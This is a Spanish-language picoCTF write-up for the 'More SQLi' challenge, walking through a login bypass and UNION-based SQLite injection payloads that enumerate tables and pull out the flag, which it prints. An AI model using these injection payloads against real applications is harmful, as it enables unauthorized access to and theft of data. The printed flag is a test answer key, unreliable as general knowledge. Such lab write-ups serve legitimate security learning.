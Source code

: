 
## Reto
More SQLi
## Descripcion
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:64087/).

## Solucion
- al entrar me pregunta por usuario y contraseñaentonces para loggearme uso `' or 1=1 ;` en contraseña para saltarme la verificacion
- ya dentro hay algo como un buscador de ciudades en una base de datos que sigue una estructura similar a `SELECT [ALGO] FROM [TABLA] WHERE [INPUT DADO]`
- intento hacer una inyeccion poniedo esto primero: 
  `zac' union select 1,2,3;` y veo que funciona
- ahora trato de ver en que version estamos con `zac' union select sqlite_version(),2,3;` y me regresa la vercion 3.31.1
- revisando el acordeon de inyecciones proporcionados ahora uso una inyeccion para ver los nombres de todas las tablas con: 
  `' union select 1,2,tbl_name FROM sqlite_master WHERE type='table' ;`  
- y para revisar sus estructuras ahora uso: `ciudad' union select 1,sql,tbl_name FROM sqlite_master WHERE type='table' ;`
  ![[Pasted image 20250924121133.png]]
- Ahora puedo ver que en more_table esta la bandera, entonces solo me queda que me devuelva esa informacion usando:
  ``ciudad' union select 1,2,flag from more_table;`` y obtengo la bandera: **picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}**

## Notas
- con esta y la practica de Irish-Name-Repo se puede ver que es muy importante depurar las contraseñas y usuarios para no ser victimas de una inyeccion sql que podria por terminar con alguien aplicando un `DROP TABLE`
## Referencias
[PayloadsAllTheThings/SQL Injection/SQLite Injection.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

